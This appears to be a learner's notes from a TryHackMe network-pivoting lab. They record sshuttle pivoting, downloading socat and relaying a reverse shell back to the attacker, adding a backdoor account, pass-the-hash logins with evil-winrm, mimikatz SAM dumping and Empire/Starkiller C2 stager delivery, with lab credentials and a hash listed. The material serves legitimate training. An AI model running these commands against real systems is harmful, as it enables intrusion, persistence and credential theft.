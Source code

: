 
```php
/home/kali/Documents/tryhackme-notes/wreath/loot
```

ssh first target
```php
ssh -i id_rsa root@10.200.57.200
```

setup shhuttle for pivot
```php
sudo sshuttle -r root@10.200.57.200 --ssh-cmd "ssh -i id_rsa" -N -x 10.200.57.200
```

check firewall
```php
firewall-cmd --zone=public --add-port 22888/tcp
```

**_Socat can be skipped if user account is already made_**

**On the Webserver:**

Preparation:

```php
cd /opt/static-binaries/binaries/
```

```php
python -m SimpleHTTPServer 80
```

```php
curl 10.50.55.235/socat -o /tmp/socat-Platos && chmod +x /tmp/socat-Platos
```

**SOCAT Reverse Shell Relay**

In this scenario we are using **socat** to create a relay for us to send a reverse shell back to our own attacking machine. 
1. First let's start a standard netcat listener on our attacking box (`sudo nc -lvnp 443`). 
2. Next, on the compromised server, use the following command to start the relay:  
`./socat tcp-l:8000 tcp:ATTACKING_IP:443 &`

```php
sudo nc -lvnp 443
```

```php
./socat tcp-l:8000 tcp:10.50.55.235:443 &
```

_**Note:** the order of the two addresses matters here. Make sure to open the listening port first,_ then _connect back to the attacking machine._

### Webpage Location

```php
http://10.200.57.150/exploit-Platos.php
```

# Setting up a user/admin account

First we create the account itself:  
```php
net user USERNAME PASSWORD /add
``` 

**_Account:_**
Username:
Platos

Password:
PlatosTHM13!3


## Evil-WinRM

```php
evil-winrm -u Platos -p 'PlatosTHM13!3' -i 10.200.57.150
```

Upload/Download
```php
upload local_filename destination_filename
```

Try to make mimikatz work on CLI
```php
runas /user:Administrator "cmd.exe mimikatz.exe"
```

## xfreerdp
```php
xfreerdp /v:10.200.57.150 /u:Platos /p:'PlatosTHM13!3' /dynamic-resolution +clipboard
```

Now to dump the sam, but first:
- `privilege::debug`   
- `token::elevate`
- Finally ``lsadump::sam``

share resources
```php
xfreerdp /v:10.200.57.150 /u:Platos /p:'PlatosTHM13!3' /dynamic-resolution +clipboard /drive:/usr/share/windows-resources,share
```

---
### Account Details

**Username:**
Thomas

**Password:**
i<3ruby

---
### Easy connection to compromised server

```php
evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.57.150
```

---

# C&C - Basic Setup

### Empire

```php
sudo powershell-empire server
```

### StarKiller

With Empire server running:

```php
starkiller
```

**Username:** `empireadmin`

**Password:** `password123`

**URL:** `https://localhost:1337`

---

**_The stager, firewall rule, and php listener, should all be using the same port!

1. I copy the stager to clipboard after crafting it in StarKiller (_refer to full notes for examples_), i then make a temp file stager-Platos.sh and run it on the web-server **prod-serv** 

2. After running our stager i get the Webserver Agent

![[Pasted image 20240722083033.png]]

3. At this stage i thought i had to delete the agent but you need it to forward the response.

![[Pasted image 20240722085006.png]]

4. I think this part is where i need to use the port i opened in the firewall rules.

_Update:_
-  in the `redirect listener section ` i add the listener i setup `Webserver (StarKiller)`

Create new stager
![[Pasted image 20240722085946.png]]

- The stager has given us the files located at `/tmp/http_hop`
- CD to that dir and zip the files
```php
zip -r hop.zip *
```

```php
curl 10.50.55.235/hop.zip -o hop.zip
```

```php
unzip hop.zip
```

![[Pasted image 20240722091152.png]]

We now need to serve the files on the port we chose when generating the http_hop listener:
```php
php -S 0.0.0.0:22888 &>/dev/null &
```

Burpsuite modifications
```php
Content-Type: application/x-www-form-urlencoded
```

```php
POST /web/exploit-Platos.php
```

http://10.200.57.150/web/exploit-Platos.php

- Add the stager to the `a` request from StarKiller http-hop.
- After re-adding the firewall rule to the prod server i get the agent back.

---

**Very Exciting!**
I get the agent back and complete this part.
![[Pasted image 20240722100617.png]]

- I used the agents menu to search for sherlock and then ran it on our new agent the git-serv.
- Click on the tasks tab at the top and then you can click on a drop down arrow that reveals the results of the module or commands used.
- It has 2 modes: 1. Execute Module. 2. Shell Command. 
- Shell command is where you can use things like `whoami`

---
After things get deleted:
- Run stager again on prod-serv
- Set up http-hop
- Re-Transfer and zip the files from our own directory in `/tmp/http-hop/`
- Exploit may need to be redone (/loot/43777.py)
- Run Burp and use the exploit in `a` parameter
- Everything should now be back as of yesterday, with two agents
---
# Final Machine in the Network

win-rm scripts

```php
evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.57.150 -s /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network/
```


